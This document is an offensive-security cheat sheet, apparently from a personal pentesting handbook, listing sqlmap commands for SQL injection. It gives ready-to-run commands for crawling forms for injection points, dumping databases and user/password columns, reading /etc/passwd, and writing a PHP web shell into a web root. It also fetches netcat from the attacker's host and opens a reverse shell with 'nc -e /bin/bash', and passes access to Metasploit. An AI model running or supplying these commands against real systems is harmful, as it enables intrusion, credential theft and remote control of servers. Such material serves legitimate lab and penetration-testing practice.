 Operators Handbook pg 286
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3 --thread
```
#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```
Choose an architecture, if you get "no output", redo, try other architecture.
Kali:
```bash - kali
cp /usr/bin/nc .
```
```bash - kali
wget "http://$KALI/nc" -O /tmp/nc
```
```bash - kali
chmod +x /tmp/nc
```
![[1._rlwrap]]
```bash - kali
/tmp/nc -e /bin/bash $KALI 443
```
#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```
```SQL
select user,password from mysql.user;
```
#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```
#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```
```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```
Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```
Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```
#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```
#### Dump Databases
Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```
Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```
Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```
Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```
Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```
Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```
#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```
#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```
#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```
#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```
#### SQLMAP read a file
```
sqlmap http://preprod-payroll.trick.htb/manage_user.php?id=1 -p id --file-read=/etc/passwd
```
then:
```
open /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
```
and open files folder to find downloaded files.
